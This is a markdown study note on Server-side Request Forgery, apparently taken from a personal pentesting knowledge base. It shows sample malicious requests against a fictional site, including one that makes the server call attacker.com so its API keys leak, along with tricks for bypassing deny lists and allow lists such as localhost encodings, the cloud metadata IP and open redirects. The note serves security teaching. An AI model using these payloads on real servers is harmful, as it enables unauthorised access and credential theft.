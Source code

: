 ```yaml
---
title: Server-side Request Forgery
---
```


_Server-side Request Forgery_ is a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

## Types of SSRF

There are two types of SSRF vulnerability:

- a regular SSRF - data is returned to the attacker's screen
- _blind SSRF_ - an SSRF occurs, but no information is returned to the attacker's screen

## Impact

A successful SSRF attack can result in any of the following:

- Access to unauthorised areas
- Access to customer/organisational data
- Ability to Scale to internal networks
- Reveal authentication tokens/credentials

## Examples

### URL manipulation

The client expects similar request:

```http
http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123
```

By modifying the `url` query param, we might want to access different API endpoints, e.g.:

```http
# hacker requests
http://website.thm/stock?url=http://api.website.thm/api/user

# client request the server
http://api.website.thm/api/user

# server returns the user data instead of stock information
```

### With [path-traversal](knowledge/off-sec/pentesting/path-traversal.md)

The client expects similar request:

```http
http://website.thm/stock?url=/item?id=123
```

Even if we have control over the path, not the whole URL, by modifying the `url` param, we might want to access different API endpoints, e.g.:

```http
# hacker requests
http://website.thm/stock?url=/../user

# client request the server
http://api.website.thm/api/stock/../user

# server returns the user data instead of stock information
```

### Controlling the server's subdomain

The client expects similar request:

```http
http://website.thm/stock?server=api&id=123
```

```http
# hacker requests
http://website.thm/stock?server=api.website.thm/api/user&x=&id=123
                                [-------------------------]

# client request the server
http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123
     [----------------------------]                              [-]

# server returns the user data instead of stock information
```

We can control the server's subdomain to which the request is made (from `server` to `api.website.thm/api/user`).

The [payload](knowledge/off-sec/glossary/payload.md) ending with `&x=` is used to stop the remaining path from being appended to the end of the URL and turns into parameter itself.

### Forcing webapp to request another server

The attacker can force the webserver to request a server of the attacker's choice. By doing so, we can capture request headers that are sent to the attacker's specified domain. These headers could contain authentication credentials or API keys sent by `website.thm` (that would normally authenticate to `api.website.thm`).

The client expects similar request:

```http
http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123
```

```http
# hacker requests
http://website.thm/stock?url=http://attacker.com/

# webapp requests data from `attacker.com` revealing the API key
```

## Finding a SSRF

SSRF vulnerabilities can be spotted in many different ways. Common examples:

- A full URL used as a parameter in the address bar
  - `https://website.thm/form?server=http://server.website.thm/store`
- A partial URL such as just the hostname
  - `https://website.thm/form?server=api`
- Path of the URL
  - `https://website.thm/form?dst=/forms/contact`
- In a hidden field in a form

Some of these examples are easier to exploit than others, and this is where a lot of trial and error will be required to find a working [payload](knowledge/off-sec/glossary/payload.md).

If working with a blind SSRF the output is not reflected back to us, so we'll need an external HTTP logging tool to monitor requests:

- [RequestBin](https://requestbin.com)
- your own HTTP server
- [[knowledge/off-sec/tools/burp/burp|Burp]]'s Collaborator client.

## Bypassing SSRF defenses

Security-savvy developers aware of the SSRF may implement checks in their applications to make sure the requested resource meets specific rules. There are usually two approaches to this, as follows:

### _Deny List_

All requests are accepted apart from resources specified in a list or matching a particular pattern.

A Web Application may employ a deny list to protect sensitive endpoints, IP addresses or domains from being accessed by the public while still allowing access to other locations.

A specific endpoint to restrict access is the `localhost`/`127.0.0.1`, which may contain server performance data or further sensitive information.

Attackers can bypass a Deny List by using alternative localhost references such as `0`, `0.0.0.0`, `0000`, `127.1`, `127.*.*.*`, `2130706433`, `017700000001` or subdomains that have a DNS record which resolves to `127.0.0.1` such as `127.0.0.1.nip.io`.

Also, in a cloud environment, it would be beneficial to block access to the IP address `169.254.169.254`, which contains metadata for the deployed cloud server, including possibly sensitive information. An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address `169.254.169.254`.

### _Allow List_

An allow list is where all requests get denied unless they appear on a list or match a particular pattern, eg. a rule that an URL used in a parameter must begin with `https://website.thm`.

An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as `https://website.thm.attackers-domain.thm`. The application logic would now allow this input and let an attacker control the internal HTTP request.

### Open Redirect

An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address, e.g `https://website.thm/link?url=https://tryhackme.com`. This endpoint was created for statistics purposes.

But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with `https://website.thm/`. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.
